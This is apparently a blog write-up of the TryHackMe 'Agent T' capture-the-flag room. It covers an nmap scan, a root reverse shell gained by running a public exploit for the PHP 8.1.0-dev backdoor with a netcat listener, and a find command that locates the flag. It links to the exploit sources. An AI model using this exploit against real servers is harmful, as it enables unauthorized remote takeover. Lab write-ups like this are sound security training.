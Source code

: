 ```yaml
---
title: "Agent T WriteUp"
categories: [ctf]
date: 2022/08/07
description: TryHackMe Agent T WriteUp.
---
```


# TryHackMe | Agent T

## Scanning && Enumeration

Let's start with the network scan first.

<p align="center">
  <img src="/img/agent_t_thm/0.png">
</p>

```bash
nmap -sSV --min-rate 1000 -p- -v <ip>

```
A web application is running on port 80. PHP 8.1.0 dev version. Let's look at the web interface.

<p align="center">
  <img src="/img/agent_t_thm/1.png">
</p>

This is the default admin dashboard. I browsed the pages, but i couldn't find any important clue or information.

It made more sense to find exploits suitable for PHP version.

## Exploitation

<p align="center">
  <img src="/img/agent_t_thm/2.png">
</p>

I found the appropriate exploit in exploit-db, but it didn't give me tty access, so i decided not to use the other exploit. Of course the choice is yours.

<p align="center">
  <img src="/img/agent_t_thm/3.png">
</p>

In order to exploit the remote code execution vulnerability, i listened with netcat and gave the necessary addresses and ports to the python script. I finally got the root shell.

```bash

python3 rce.py <dst-ip> <src-ip> <src-port>

```

<p align="center">
  <img src="/img/agent_t_thm/4.png">
</p>

There is no need for any privilege escalation process and we can find it with the find command since it asks for a flag from us.

<p align="center">
  <img src="/img/agent_t_thm/5.png">
</p>

```bash
find / -name *.txt

```

It was that simple. Yes, this is very easy when you do the right enumeration and exploitation.






### Resources

 - [Exploit 1](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py "Exploit")
 - [Exploit 2](https://www.exploit-db.com/exploits/49933 "Exploit 2")



